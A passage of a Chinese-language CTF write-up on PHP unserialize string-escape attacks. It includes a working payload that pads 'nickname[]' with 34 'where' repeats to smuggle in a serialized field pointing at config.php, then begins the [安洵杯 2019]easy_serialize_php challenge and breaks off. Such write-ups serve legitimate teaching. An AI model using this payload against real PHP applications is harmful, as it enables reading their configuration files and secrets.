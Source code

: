 这里还要注意的点就是因为要绕过正则，所以nickname→nickname[]，数组序列化后就需要闭合{，所以

`nickname[]=wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere";}s:5:"photo";s:10:"config.php";}`

34个where，并且需要手动添加一个}来闭合多出的{

```php
<?php
$a[]=array(1);
var_dump(serialize($a));
>>
string(24) "a:1:{i:0;a:1:{i:0;i:1;}}"
```

<img src="../images/image-20221004202925741.png" alt="image-20221004202925741" style="zoom: 50%;" />





### 过滤后字符变少

```php
思路：过滤后字符减少，会吃掉后面的字符，所以需要计算过滤处到目标子串的长度
见下面例子，因为这种情况需要观察序列化字符串才能得到过滤处到目标子串的长度，而不是像过滤后字符变多那样可以直接构造。
```

#### [安洵杯 2019]easy_serialize_php

过滤函数

```php
function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}
```

可控变量

```php
$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function;
还有一个$_SESSION['img']是需要我们覆盖的变量
extract($_POST);
```

序列化→过滤→反序列化

```php
$serialize_info = filter(serialize($_SESSION));
$userinfo = unserialize($serialize_info);
echo file_get_contents(base64_decode($userinfo['img']));
```

目标子串
